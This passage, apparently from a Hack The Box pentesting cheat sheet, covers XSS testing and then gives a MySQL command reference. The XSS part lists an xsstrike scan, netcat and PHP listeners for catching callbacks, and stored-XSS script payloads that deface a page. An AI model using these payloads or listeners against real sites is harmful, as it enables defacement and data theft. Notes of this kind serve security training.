 | **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |

> DEFACING WEBSITE POC FOR STORED XSS:
```js
<script>document.body.style.background = "#141d2b"</script>

// OR CHANGE THE BG IMAGE:
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

-------------------------------

## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |